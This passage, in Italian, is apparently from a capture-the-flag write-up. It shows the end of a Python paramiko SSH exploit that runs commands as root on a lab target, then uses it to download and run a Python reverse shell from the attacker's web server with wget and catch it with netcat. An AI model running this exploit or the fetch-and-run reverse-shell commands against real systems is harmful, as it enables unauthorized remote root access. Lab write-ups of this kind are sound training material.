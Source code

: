 ```
        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
EXPLOIT
$ python exploit.py 127.0.0.1 2222 id
[...]
uid=0(root) gid=0(root) groups=0(root)
[...]
$
```
L'exploit funziona e abbiamo i privilegi di ```root```

Ora mettiamo una reverse shell python sulla macchina remota (la stessa ```reverse.py``` che abbiamo usato per l'app Splunk).

Rer fare questo
* istanziamo sul nostro PC un web server
* ci mettiamo in ascolto con ```netcat``` sulla porta 1234
* carichiamo la reverse shell sulla macchina remota usando l'exploit appena trovato
```
$ cd ~/ctf/rev_app/bin/
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
[...]
$ nc -lvnp 1234
[...]
$ cd ~/ctf/
$ python exploit.py 127.0.0.1 2222 'wget 192.168.56.1:8000/reverse.py && python reverse.py'
```
A questo punto abbiamo la webshell stabile come root ma ci accorgiamo di essere dentro un altro docker e che non c'è la flag
```
$ nc -lvnp 1234
Listening on [0.0.0.0] (family 2, port 1234)
[...]
# # # id
uid=0(root) gid=0(root) groups=0(root)
# ls -la /
total 96
drwxr-xr-x   1 root root 4096 May 29 04:44 .
drwxr-xr-x   1 root root 4096 May 29 04:44 ..
-rwxr-xr-x   1 root root    0 May 25 09:49 .dockerenv
```